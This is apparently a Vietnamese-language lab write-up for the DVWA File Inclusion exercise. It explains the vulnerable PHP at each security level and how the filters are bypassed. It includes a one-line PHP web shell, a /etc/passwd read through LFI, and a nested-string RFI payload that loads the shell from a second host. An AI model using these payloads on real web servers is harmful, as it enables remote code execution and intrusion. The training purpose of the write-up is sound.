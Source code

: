 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: File Inclusion
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - DVWA
---
```


# __File Inclusion__

_A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. This issue is caused when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time. A file include vulnerability is distinct from a generic directory traversal attack, in that directory traversal is a way of gaining unauthorized file system access, and a file inclusion vulnerability subverts how an application loads code for execution. Successful exploitation of a file inclusion vulnerability will result in remote code execution on the web server that runs the affected web application. An attacker can use remote code execution to create a web shell on the web server, which can be used for website defacement._

---

__Host__: 192.168.37.162

__Domain DVWWA__: http://192.168.37.162:4280

__Website provided for RFI__: http://192.168.37.162:4280/hackable/flags/fi.php

## __Security Level: Low__

Source code

```php title="vulnerabilities/fi/source/low.php"
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

### __Analysis__

Ở cấp độ này thì khá đơn giản, ta thấy rằng url nhận tham số page để hiển thị các file1.php, file2.php, file3.php như hình bên dưới

![](image.png)

Hơn nữa, source code hoàn toàn không có filter nên việc ta "thăm dò" file ẩn trong hệ thống thực sự dễ dàng

![](image-1.png)

Oke, có những tiền đề để ta tiến hành khai thác rồi

### __Exploition__

#### __LFI__

Khi nói đến local file inclusion là nói đến việc truy xuất file hệ thống thông qua các đối số được truyền vào. Đơn giản nhất thường thấy là lấy ra file /etc/passwd

![](image-2.png)

#### __RFI__

Ta sẽ tạo một webshell đơn giản và deploy local tại url http://192.168.37.162:8000/ws_ter_get.php

```php title="ws_ter_get"
<?=`$_GET[0]`?>
```

Rồi truyền đối số vào và truy xuất thông tin hệ thống thôi

![](image-3.png)

---

## __Security Level: Medium__

Source code

```php title="vulnerabilities/fi/source/medium.php"

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

### __Analysis__

Ở mức độ này thì họ đã có filter đầu vào cho cả RFI và LFI nhưng filter này còn hơn non :3

Ở bài viết [Command Injection](/dvwa/command-injection/#analysis_2) tôi cũng đã giải thích sơ bộ chuyện filter này.

Về cơ bản, hành vi filter của các hàm như str_replace,... không có "đệ quy" tức nếu nó filter `../` trong chuỗi `....//` thì nó sẽ lấy `../` ở chính giữa, còn lại vẫn là `../` nhưng lúc này nó không tiếp tục thao tác (không đệ quy).

Giải thích tương tự với việc filter http:// và https://

### __Exploition__

#### __RFI__

:3 Tiêm payload thôi

> ht __http://__ tp://192.168.37.162:8000/ws_ter_get.php&0=ls

![](image-4.png)

---

## __Security Level: High__

Source code

```php title="vulnerabilities/fi/source/high.php"

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

### __Analysis__

Ở challenge này, họ filter ở mức độ cao hơn. Chú ý logic dòng if.

```php
!fnmatch( "file*", $file ) && $file != "include.php"
```

Đoạn trên thể hiện việc nếu mà file truyền vào có tên không bắt đầu bằng `file` và nó khác file `include.php` thì lập tức báo lỗi. 

> Một góc nhìn rộng hơn: Ta có thể xem đoạn logic này như 1 loại whitelist cơ bản

### __Exploition__

Ta sẽ link tới challenge [File Upload](file-upload) để giải quyết lỗ hổng này

![](image-5.png)

---

## __Security Level: Impossible__

Source code

```php title="vulnerabilities/fi/source/impossible.php"

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

### __Analysis__

Ở mức độ này, họ set 1 whitelist gồm 4 file {include.php, file1.php, file2.php, file3.php} và hiển nhiên ta sẽ khó để khai thác lỗ hổng ngay lúc này.

---

### __What we learned__

1. LFI 
2. RFI

## __More Information__

- [Wikipedia - File inclusion vulnerability](https://en.wikipedia.org/wiki/Remote_File_Inclusion)
- [WSTG - Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [WSTG - Remote File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)